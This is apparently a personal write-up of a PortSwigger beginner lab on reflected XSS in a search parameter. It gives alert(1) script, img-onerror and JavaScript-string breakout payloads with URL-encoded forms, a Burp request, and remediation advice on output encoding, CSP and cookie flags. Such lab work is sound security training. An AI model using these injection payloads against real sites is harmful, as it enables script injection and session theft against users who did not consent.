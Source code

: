 # Reflected XSS – PortSwigger Beginner Lab

**Date:** 2025-09-02  
**Lab:** Reflected XSS into HTML context (PortSwigger Web Security Academy)  
**Host:** `<paste-lab-host-here>`

**Finding:** Reflected Cross-Site Scripting (XSS) in `/?search=`  
**Severity:** Medium (High if sensitive session actions exist)  
**CWE:** CWE-79

**Endpoint / Parameter:** `/` (query parameter `search`)  
**PoC payload (raw):** `<script>alert(1)</script>`  
**PoC payload (URL-encoded):** `%3Cscript%3Ealert(1)%3C%2Fscript%3E`

---

## Reproduction Steps

1. Navigate to `https://<lab-host>/`.
2. In the Search box, submit: `<script>alert(1)</script>`  
   Or browse directly to:  
   `https://<lab-host>/?search=%3Cscript%3Ealert(1)%3C%2Fscript%3E`
3. Observe the JavaScript alert dialog (screenshot `./evidence/ps-xss/alert-popup.png`).
4. Using Burp Repeater, send the following and confirm the payload is reflected unencoded:

```
GET /?search=%3Cscript%3Ealert(1)%3C%2Fscript%3E HTTP/1.1
Host: <lab-host>
User-Agent: <your-user-agent>
Accept: text/html
Connection: close
```

> If the reflection is **not** in HTML text context:
>
> - **HTML attribute context:** use `"><img src=x onerror=alert(1)>`  
>   URL-encoded: `%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E`
> - **JavaScript string context:** use `';alert(1);//` or `";alert(1);//`  
>   Encoded: `%27%3Balert(1)%3B%2F%2F` or `%22%3Balert(1)%3B%2F%2F`

---

## Impact (short)

Arbitrary JavaScript executes in the victim’s browser in the context of `<lab-host>`. An attacker could steal non-HttpOnly cookies, perform privileged actions on behalf of the user, or pivot to further attacks.

---

## Remediation

- Apply **contextual output encoding** for the `search` parameter (HTML text context).
- Implement a **server-side allow-list**: reject or sanitize `<`, `>`, quotes, and event-handler attributes for user input rendered in responses.
- Deploy a **Content Security Policy (CSP)**, for example:  
  `default-src 'self'; script-src 'nonce-<random>'; object-src 'none'; base-uri 'self'`.
- Set cookies with **HttpOnly**, **Secure**, and **SameSite** (`Lax`/`Strict`) as appropriate.

---

## Artifacts

- Screenshot(s):
  ![Alert popup](/Users/christopheraraque/Library/Mobile Documents/com~apple~CloudDocs/PortswiggerLabs/evidence/ps-xss/alert-popup.png)
  ![Lab solved](../../evidence/ps-xss/alert-popup.png)
  [Open File](../../evidence/ps-xss/alert-popup.png)

- Burp Repeater request/response:
  [request.txt](../../evidence/ps-xss/request.txt)

```
[paste the relevant request/response snippet here]
```

---

## Summary / Next Step

- ✅ Solved Reflected XSS with payload: `<script>alert(1)</script>`
- ✅ Evidence captured (alert popup + Burp request)
- ▶️ Next: try an attribute-context XSS lab or start the Basic SQL injection lab tomorrow
